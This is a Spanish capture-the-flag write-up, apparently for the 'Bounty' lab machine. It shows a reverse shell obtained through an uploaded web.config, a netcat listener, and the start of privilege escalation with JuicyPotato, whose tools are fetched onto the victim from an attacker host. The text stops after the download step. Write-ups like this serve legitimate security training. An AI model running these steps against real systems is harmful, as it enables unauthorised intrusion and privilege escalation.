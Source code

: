 1. Uploadeamos el fichero en la web

1. Lanzamos un servidor web con pyhton

    ```bash
    python -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Navigamos al url 
```bash
 http://10.10.10.93/uploadedFiles/web.config 
```


Y vemos que ganamos accesso al systema

```bash
whoami

#Output
bounty\merlin
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el 
```bash
 SeImpersonatePrivilege 
```
 ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
iwr -uri http://10.10.14.7/nc.exe -OutFile nc.exe
```

